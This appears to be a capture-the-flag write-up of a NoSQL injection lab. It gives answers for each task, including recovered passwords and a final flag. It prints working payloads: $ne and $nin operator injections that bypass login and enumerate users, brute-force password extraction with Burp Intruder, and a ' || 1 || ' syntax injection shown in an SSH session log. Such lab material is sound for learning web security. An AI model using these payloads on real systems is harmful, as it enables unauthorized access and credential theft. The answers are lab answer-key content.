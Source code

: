 > # NoSQL Injection

# Summary
- [Summary](#summary)
  - [Task 2 - What is NoSQL](#task-2---what-is-nosql)
  - [Task 3 - NoSQL Injection](#task-3---nosql-injection)
  - [Task 4 - Operator Injection: Bypassing the Login Screen](#task-4---operator-injection-bypassing-the-login-screen)
  - [Task 5 - Operator Injection: Logging in as Other Users](#task-5---operator-injection-logging-in-as-other-users)
  - [Task 6 - Operator Injection: Extracting Users' Passwords](#task-6---operator-injection-extracting-users-passwords)
  - [Task 7 - Syntax Injection: Identification and Data Extraction](#task-7---syntax-injection-identification-and-data-extraction)


##  Task 2 - What is NoSQL
1. What is a group of documents in MongoDB is known as?<br>
    > MongoDB allows you to group multiple documents with a similar function together in higher hierarchy structures called collections for organizational purposes.

    **Answer:** collections

1. Using the MongoDB Operator Reference, what operator is used to filter data when a field isn't equal to a given value?<br>
    Follow this [link](https://www.mongodb.com/docs/manual/reference/operator/query/).<br>
    > $ne: Matches all values that are not equal to a specified value.

    **Answer:** $ne

1. Following the example of the 3 documents given before, how many documents would be returned by the following filter: ['gender' => ['$ne' => 'female'] , 'age' => ['$gt'=>'65'] ]?<br>
    No document has both male gender and age greater than 65.<br>
    **Answer:** 0

##  Task 3 - NoSQL Injection
1. What type of NoSQL Injection is similar to normal SQL Injection?<br>
    > Syntax Injection - This is similar to SQL injection, where we have the ability to break out of the query and inject our own payload. The key difference to SQL injection is the syntax used to perform the injection attack.

    **Answer:** Syntax

1. What type of NoSQL Injection allows you to modify the behaviour of the query, even if you can't escape the syntax?<br>
    > Operator Injection—Even if we can't break out of the query, we could potentially inject a NoSQL query operator that manipulates the query's behaviour, allowing us to stage attacks such as authentication bypasses.

    **Answer:**  Operator

##  Task 4 - Operator Injection: Bypassing the Login Screen
1. When bypassing the login screen using the $ne operator, what is the email of the user that you are logged in as?<br>
    Add `user[$ne]=abc&pass[$ne]=abc&remember=on` payload to parameters for getting all the documents in database.<br>
    ![](images/1.png)<br>
    **Answer:** admin@nosql.int

##  Task 5 - Operator Injection: Logging in as Other Users
1. How many users are there in total?<br>
    Submit this payload `user[$nin][]=admin&pass[$ne]=abc&remember=on` first, we will get the username `pedro`. Then exclude `pedro` with `user[$nin][]=admin&user[$nin][]=pedro&pass[$ne]=abc&remember=on` and go on with other username until the response is invalid.<br>
    The total of users are four.<br>
    **Answer:** 4

1. There is a user that starts with the letter "p". What is his username?<br>
    **Answer:** pedro

##  Task 6 - Operator Injection: Extracting Users' Passwords
1. What is john's password?<br>
    Use Intruder of BurpSuite to guest the password's length.<br>
    ![](images/2.png)<br>
    Base on the hint, the password is numbers only, so we guest the first character from 0 to 9 to find which number is appear first.<br>
    ![](images/3.png)<br>
    The number 1 is appear first, we continue to the end of password.<br>
    **Answer:** 10584312

1. One of the users seems to be reusing his password for many services. Find which one and connect through SSH to retrieve the final flag!<br>
    The goal user is `pedro`, repeat steps above to find the password, and the password is `coolpass123`.<br>
    **Answer:** flag{N0Sql_n01iF3!}

##  Task 7 - Syntax Injection: Identification and Data Extraction    
1. What common character is used to test for injection in both SQL and NoSQL solutions?<br>
    **Answer:** '

1. What is the email value of the super secret user returned in the last entry?<br>
    Use payload `' || 1 || '` to get all email address.<br>
    ```shell
    $ ssh syntax@10.10.165.66
    syntax@10.10.165.66's password: 
    Please provide the username to receive their email:' ||1||'
    admin@nosql.int
    pcollins@nosql.int
    jsmith@nosql.int
    Syntax@Injection.FTW
    Connection to 10.10.165.66 closed.
    ```
    **Answer:** Syntax@Injection.FTW

